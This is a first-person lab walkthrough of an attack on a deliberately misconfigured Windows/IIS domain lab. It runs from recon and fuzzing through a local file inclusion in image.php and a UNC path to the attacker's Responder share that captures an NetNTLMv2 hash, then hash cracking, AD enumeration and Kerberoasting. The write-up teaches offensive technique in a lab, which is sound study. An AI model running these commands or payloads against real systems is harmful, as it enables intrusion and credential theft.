# Attack chain

## Introduction: web hosting company

Skyrius is a Lithuanian web host that provides services such as shared hosting, cloud servers, and security patching. The help desk site lets authorized staff submit tickets for remote or on-site support.

I start as an outside attacker on RedNet, with access to Skyrius's internal network but no credentials. The objective is to reach Domain Admin on a lab that I intentionally misconfigured, and I am only aware of `10.0.0.50` hosting a web server.



## Footprinting: information disclosure via certificate SANs

The first thing I do is run an Nmap scan on the IP, so that I can probe for open ports, check the service versions and compare them to vulnerability databases, and identify the environment that I am working in.
```
nmap -A -p- 10.0.0.50 -oN skyriusnmap.txt
```
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-18 15:40 +0200
Nmap scan report for ws01.lab.local (10.0.0.50)
Host is up (0.0011s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/https?
| tls-alpn:
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=skyrius.lab.local
| Subject Alternative Name: DNS:skyrius.lab.local, DNS:helpdesk.lab.local, DNS:karjera.lab.local
| Not valid before: 2026-10-17T22:55:14
|_Not valid after:  2027-10-17T23:15:14
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=WS01.lab.local
| Not valid before: 2026-09-26T18:13:55
|_Not valid after:  2027-03-28T18:13:55
| rdp-ntlm-info:
|   Target_Name: LAB
|   NetBIOS_Domain_Name: LAB
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: lab.local
|   DNS_Computer_Name: WS01.lab.local
|   DNS_Tree_Name: lab.local
|   Product_Version: 10.0.26100
|_  System_Time: 2026-10-18T13:44:43+00:00
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49668/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.99%I=7%D=10/18%Time=6AD4CD1A%P=x86_64-pc-linux-gnu%r(T
SF:erminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\?\x08\0\x02
SF:\0\0\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 11|10|2022|2008|Phone (97%)
OS CPE: cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows
Aggressive OS guesses: Microsoft Windows 11 24H2 (97%), Microsoft Windows 11 21H2 (96%), Microsoft Windows 10 (91%), Microsoft Windows 10 1607 (91%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (90%), Microsoft Windows Server 2022 (90%), Microsoft Windows Server 2008 SP1 (88%), Microsoft Windows Phone 7.5 or 8.0 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-10-18T13:44:44
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

TRACEROUTE (using port 445/tcp)
HOP RTT     ADDRESS
1   0.33 ms 10.6.6.1
2   1.45 ms ws01.lab.local (10.0.0.50)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 268.42 seconds
```
Nmap output

Open ports such as `135`, `139`, `445`, `3389`, `5040`, `5985` and `49668` indicate that this is a Windows machine, and `rdp-ntlm-info` shows that it is joined to the `LAB` domain (`lab.local`), so this is an Active Directory environment. I can see that the internal IP `10.0.0.50` belongs to the `ws01.lab.local` DNS hostname and likely runs Windows 11 24H2, validating my claims. With `80` and `443` available, the attack surface widens, so I visited the webpage at `https://skyrius.lab.local/`.



The web server is using a catch-all binding without a hostname, while the SANs are registered under the same certificate. By viewing this certificate, several internal hosts leak: `skyrius.lab.local`, `helpdesk.lab.local` and `karjera.lab.local`. The same result can also be found via nmap. I added the three domains to `/etc/hosts`, as a single webserver can serve multiple websites on the same IP address.



Visiting `skyrius.lab.local` displays the starter IIS page, while `helpdesk.lab.local` and `karjera.lab.local` return `403`. Although starter pages are usually ignored by hunters during bug bounties as they are heavily guarded by WAFs, they're still worth a look. Starter pages can be a goldmine to find common default credentials, internal APIs, or in this case, information disclosure through misconfigured handler mappings in IIS.



Once I see a starter page, I do my routine check. I inspect the source page to look for HTML comments, check the network tab for API calls, the storage tab for cookies, JavaScript, and if it exists: base64-encode the favicon and calculate its MurmurHash3 value, as Shodan scrapes and indexes favicons globally, exposing hidden infrastructure. I only turn to fuzzing once I finish my routine check, since it's easy to fall into rabbit holes and waste time.

I avoid using general wordlists in the first step, as it can end up wasting time, increase the chance I get blocked by a WAF, and instill assumptions that the webpage is secure. General wordlists are better fitted in the second, as I can end up finding specific extensions that I couldn't before.
`ffuf -w IIS.fuzz.txt -u https://skyrius.lab.local/FUZZ`
```
/index.php              [Status: 200, Size: 2457, Words: 586, Duration: 8ms]
```
FFUF output
- `-w`: Wordlist
- `-u`: URL

Visiting `https://skyrius.lab.local/index.php` shows a picture of a server with two navbar options: login and home. I used curl to check whether the version number is outdated in the server headers, as `https://www.exploit-db.com/` might have a publicly available vulnerability for it. If I checked the headers on the root path instead of `index.php`, `X-Powered-By` would not appear as it is not processed by the PHP interpreter.
`curl -kI https://skyrius.lab.local/index.php`
```
server: Microsoft-IIS/10.0
x-powered-by: PHP/8.5.11
```
curl output

This is because `HTTP.sys` is the kernel driver responsible for handling HTTP and HTTPS requests and forwarding them to IIS. From there, each application pool has its own worker process (`w3wp.exe`) running under its identity, isolating permissions and memory.



Now that I know that PHP runs under IIS, it is guaranteed to be FastCGI, since the legacy ISAPI architecture was dropped back in 2009. FastCGI starts up a set of daemons that stay alive to handle requests compared to traditional CGI, with an application pool identity under which they run. If `php.ini` is misconfigured by setting `fastcgi.impersonate = 0`, it runs under the application pool identity, which may be a highly privileged account, instead of `IUSR`. At `1`, it would run as `IUSR`, which acts anonymously on the network, so there would be no NetNTLMv2 hash to capture. Combining information disclosure with footprinting is a powerful intuition tool for mapping permissions and misconfigurations. To prevent information disclosure, `expose_php` can be set to `Off` in `php.ini`.

I proceeded to fuzz with the `.php` extension, but ffuf would output false positives. IIS on Windows is case-insensitive as it inherits it from the NTFS filesystem, which treats `ticket.php` and `Ticket.php` as the same file. To work around this, I replaced `raft-medium-directories.txt` with `raft-medium-words-lowercase.txt`. Case-insensitivity can be a neat way to recognize that the webserver is on Windows if there's a firewall filtering nmap's OS detection.
```
ffuf -w raft-medium-words-lowercase.txt -u https://skyrius.lab.local/FUZZ -t 100 -rate 100 -e .php -recursion
```
```
login.php               [Status: 200, Size: 1330, Words: 359, Lines: 44, Duration: 17ms]
index.php               [Status: 200, Size: 2519, Words: 576, Lines: 69, Duration: 7ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4ms]
image.php               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 4ms]
.                       [Status: 200, Size: 696, Words: 26, Lines: 32, Duration: 5ms]
helpdesk                [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 2ms]
[INFO] Adding a new job to the queue: https://skyrius.lab.local/helpdesk/FUZZ

[INFO] Starting queued job on target: https://skyrius.lab.local/helpdesk/FUZZ

.                       [Status: 403, Size: 1233, Words: 73, Lines: 30, Duration: 9ms]
ticket.php              [Status: 200, Size: 1793, Words: 495, Lines: 49, Duration: 8ms]
lookup.php              [Status: 200, Size: 987, Words: 243, Lines: 31, Duration: 15ms]
```
FFUF output

Upon fuzzing, both `ticket.php` and `lookup.php` return "Sorry, you don't have access to this page." if I tried to open them through `helpdesk.lab.local`. The only remaining file that I did not investigate was `image.php`. If the webserver is dynamically generating images and does not sanitize input, it could lead to Local File Inclusion (LFI). There are two methods for checking this:

1. The Skyrius website
Earlier I saw a picture of servers on the homepage. Right-clicking and opening the image in a new tab leaks the parameter `https://skyrius.lab.local/image.php?img=servers.jpg`

2. Parameter fuzzing
If the image was not available on the site, I could fuzz the parameters first and then try to guess its value.
```
ffuf -w burp-parameter-names.txt -u https://skyrius.lab.local/image.php?FUZZ=1 -fc 200
```
```
img                     [Status: 500, Size: 1208, Words: 70, Lines: 30, Duration: 9ms]
```
FFUF output

```
ffuf -w burp-parameter-names.txt -u https://skyrius.lab.local/image.php?img=FUZZ -e .jpg,.png,.gif -fc 500
```
```
servers.jpg             [Status: 200, Size: 329093, Words: 1066, Lines: 1254, Duration: 18ms]
```
FFUF output

To test whether LFI exists without permission errors, I checked the legacy configuration file `win.ini`. If a WAF was in place, the request would get blocked if the signature matched in the ruleset.
```
curl -k "https://skyrius.lab.local/image.php?img=C:\Windows\win.ini"
```
```
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
curl output

Since I know that this server is running Windows and PHP under IIS, there is a possibility I could upgrade LFI to RFI by abusing UNC paths. Although developers can disable the inclusion of files by setting `allow_url_include` to Off, which blocks wrappers such as `http://` and `ftp://`, PHP does not consider something like `\\server\share` to be a valid URL path. If I included my own share in the UNC path, the webserver would reach out and try to connect to it using the credentials of the application pool identity.
## Remote File Inclusion: capturing svc_skyrius's NetNTLMv2 credentials via Responder

I started Responder and then waited for the connection over SMB.
```
sudo responder -I eth0
```
```
curl -I https://skyrius.lab.local/image.php?img=%5C%5C10.6.6.100%5Cshare
```



Since the hash could not get cracked with the rockyou wordlist, I went back and enumerated `karjera.lab.local`, one of the sites that returned `403`. Since fuzzing didn't return anything either, I tried a trick that I saw in the wild.

```
ffuf -w raft-medium-words-lowercase.txt -u https://karjera.lab.local/FUZZ
```
```
ffuf -w raft-medium-words-lowercase.txt -u https://karjera.lab.local/FUZZ/
```

The `/cv/` finding is a directory listing, which IIS calls Directory Browsing. I saw the same directory listing in the wild, which comes from `autoindex on` in Nginx or `Options Indexes` in Apache. All of them could lead to information disclosure. On the server I saw in the wild, the listing was only mapped with a trailing slash, so `/export` returned `404` and only `/export/` showed up in ffuf. I learned that you should always fuzz with a trailing slash as well.



The result is `/cv/`. Two files appear in the directory listing named `RobertasSmidtasCV.txt` and `VytasBalcunasCV.txt` with Lorem Ipsum text. I used CeWL to grab the contents of the CVs as it could help me crack `svc_skyrius`'s password. Since there's no information on the password policy, I used a general ruleset from `https://raw.githubusercontent.com/CarlosLannister/OwadeReborn/refs/heads/master/owade/fileAnalyze/hashcatLib/best64.rule%7E` to mutate the words.

I tested two separate methods for cracking the password:

1. Hashcat Mode 6 (Wordlist + Mask).
One of the most common password structures consists of a word in the dictionary, followed by numbers. For this attempt, I used `/usr/share/dict/american-english`, but if it ever came up with no results, I could switch to a Lithuanian one.
```
file american-english
```
```
iconv -f UTF-8 -t ASCII//TRANSLIT american-english > american-english2
```
 
Because hashcat threw an error whenever I tried to use the file, I resorted to iconv for transliterating it (replacing diacritic characters with their equivalent).
 
```
hashcat -m 5600 svcskyrius.txt -a 6 -j c /usr/share/dict/american-english2 ?d?d?d?d --potfile-disable
```
The attack took **3 minutes** and **25 seconds**.

2. CeWL.
The fastest way to generate a password list is through CeWL, which can spider target websites. Since CeWL omits numbers by default, I explicitly called `--with-numbers` to keep 2025 and 2026 in them.

```
cewl https://karjera.lab.local/cv/VytasBalcunasCV.txt -w balcunas.list --with-numbers
```
```
cewl https://karjera.lab.local/cv/RobertasSmidtasCV.txt -w smidtas.list --with-numbers
```

If the wordlists are too small or too simple, `best64.rule` can be used to mutate passwords, which mixes uppercase, lowercase, numbers and substitutes characters and their positions.

```
hashcat --force balcunas.list -r best64.rule --stdout | sort -u > mut_password.list
```
```
hashcat --force smidtas.list -r best64.rule --stdout | sort -u > mut_password2.list
```
```
cat mut_password.list mut_password2.list > mut_password3.list
```

Upon merging the two password lists, the `mut_password3.list` ends up with **9859 lines**.
`hashcat -m 5600 svcskyrius.txt -a 0 mut_password3.list --potfile-disable`
The attack took **3 seconds**.



The password ended up being `Experience2026`. Cracking with the CeWL wordlist was about 68 times faster than the wordlist and mask attack, which illustrates how useful recon can be. On establishing a foothold, I usually run these checks:

```
nxc smb 10.0.0.10 -u 'svc_skyrius' -p 'Experience2026' --users
```
```
nxc smb 10.0.0.10 -u 'svc_skyrius' -p 'Experience2026' --shares
```
```
nxc ldap 10.0.0.10 -u 'svc_skyrius' -p 'Experience2026' --groups
```

The result had no writable shares and no overprivileged groups. I decided to check the privileges of the other service account and compared them:

```
bloodyad -H 10.0.0.10 -u svc_skyrius -p 'Experience2026' get membership svc_skyrius
```
```
bloodyad -H 10.0.0.10 -u svc_skyrius -p 'Experience2026' get membership svc_helpdesk
```


The additional privileges include `DL-Ticketing-W` and `DL-Karjera-R`, allowing the `svc_helpdesk` user to write tickets into `helpdesk.lab.local/ticket.php`. I looked towards BloodHound for mapping out privileges visually.

```
bloodhound-ce-python -u svc_skyrius -p 'Experience2026' -ns 10.0.0.10 -c All --zip -d lab.local
```


Since BloodHound can easily freeze upon rendering nodes, I increased the base memory size from 3GB to 8GB, started the containers with `./bloodhound-cli containers start`, logged in at `http://127.0.0.1:8080/ui/login`, right-clicked `SVC_SKYRIUS@LAB.LOCAL` and added the user to Owned.



The predefined saved query "Shortest paths from Owned objects" lists `svc_skyrius` as a member of `GG-SVC-WEBROOT` and `GG-SVC-APPPOOL`. The other member in `GG-SVC-APPPOOL` is called `SVC_HELPDESK`.
Both users have `Do Not Require Pre-Authentication` set to FALSE, so AS-REP roasting is not possible. On the other hand, `SVC_HELPDESK` does have an `SPN` set, making Kerberoasting possible.




The AS-REP roasting equivalent is `GetNPUsers.py`. It is also possible to output it into a text file with the `-outputfile` flag for both of these commands:

```
GetUserSPNs.py lab.local/svc_skyrius:'Experience2026' -dc-ip 10.0.0.10 -request
```

